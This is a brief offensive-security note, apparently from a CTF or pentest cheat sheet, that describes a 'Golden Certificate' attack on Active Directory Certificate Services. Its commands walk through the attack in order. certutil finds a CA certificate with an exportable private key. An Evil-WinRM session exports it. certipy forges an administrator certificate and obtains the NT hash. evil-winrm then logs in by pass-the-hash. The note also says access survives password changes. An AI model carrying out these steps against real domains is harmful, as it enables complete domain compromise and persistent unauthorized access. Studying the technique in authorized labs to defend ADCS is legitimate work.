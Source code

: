 # Golden Certificate

You can get full percistence in the domain if you get a certificate (from ADCS) wich includes de private key. This Golden Certificate can be used later to forge arbitrary certificate for any user in the domain.

Check certificates storages: 

`certutil -enumstore`

Check specific storage:

`certutil -store root` (or any store)

You will see multiple certificates. If any of those have `Signature test passed` and don't say anything about `Private key is NOT exportable`, like this example:

```
================ Certificate 8 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
  NotAfter: 11/3/2034 4:05 PM
 Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
No key provider information
  Provider = Microsoft Software Key Storage Provider
  Simple container name: Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  ERROR: missing key association property: CERT_KEY_IDENTIFIER_PROP_ID
Signature test passed
```

Then you may export this certificate:

`*Evil-WinRM* PS C:\programdata> certutil -exportPFX 75b2f4bbf31f108945147b466131bdca GoldenCertificate.pfx`

(Set password or just keep it empty.)

Now bring this file to your attacker machine, and use it to generate an administrator certificate (or any other user).

`certipy forge -ca-pfx 'GoldenCertificate.pfx' -upn 'administrator@<domain>'`

This should create brand new certificate.pfx you can use.

Finally use it to get NT hash of that user:

`certipy auth -pfx administrator_forged.pfx -dc-ip <ip> -domain <domain> -user Administrator`

Finally you just need to log in through pass the hash, using impacket suite, evil-winrm, etc.

`evil-winrm -i <ip> -u Administrator -H <NT hash>`

If users decide to change passwords, you can still forge and use certificates to get again the NT hash of that user.








